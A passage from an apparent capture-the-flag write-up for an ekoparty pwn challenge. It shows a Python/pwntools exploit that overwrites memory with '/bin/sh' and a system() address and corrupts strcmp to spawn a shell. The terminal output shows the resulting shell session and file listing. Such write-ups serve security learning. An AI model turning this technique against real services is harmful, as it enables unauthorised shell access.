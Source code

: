 ```python
        
global conn
conn = remote('challs.ctf.site', 20002)
conn.recv(200)

print "[+] writing /bin/sh to 0x13373008"
writebytes('/bin/sh', 0x13373008)

print "[+] writing system() to 0x13372020"
writebytes(struct.pack('I', 0xb7e69cd0), 0x13372020)

print "[+] fucking up strcmp()"
writebytes("\x1f", 0x13372011)

conn.interactive()
```

Yeah. Pretty horrible. 

```
bas@tritonal:~/bin/ekoparty-ctf/pwn20$ python pwnpoc.py 
[+] Opening connection to challs.ctf.site on port 20002: Done
[+] writing /bin/sh to 0x13373008
[+] writing system() to 0x13372020
[+] fucking up strcmp()
[*] Switching to interactive mode
$ id
$ id
uid=1001(simple) gid=1001(simple) groups=1001(simple)
$ cd /home/simple
$ ls -al
total 68
drwxr-x--- 2 simple simple  4096 Sep 17 13:45 .
drwxr-xr-x 6 root   root    4096 Sep 12 21:10 ..
-rw------- 1 simple simple   145 Sep 12 21:13 .bash_history
-rw-r--r-- 1 simple simple   220 Oct  7  2014 .bash_logout
-rw-r--r-- 1 simple simple  3637 Oct  7  2014 .bashrc
-rw-r--r-- 1 simple simple   675 Oct  7  2014 .profile
-rwxr-xr-x 1 root   root   27095 Nov 17  2011 checksec.sh
-rw-r--r-- 1 simple simple    35 Sep 14 23:37 flag
-rw-r----- 1 root   simple  1904 Aug 27 01:08 fmt_001.c
-rwxr-x--- 1 root   simple  5776 Aug 27 01:08 greetings
Hi id

OMG! nice work, your flag is: ^\x10LnBye!
[*] Got EOF while reading in interactive
$  
```

After 10 seconds, we got kicked out, but that was enough time to grab some files. Sadly, the flag file was not the flag... someone planted it there (thanks! but no thanks). So we grabbed the C source file:

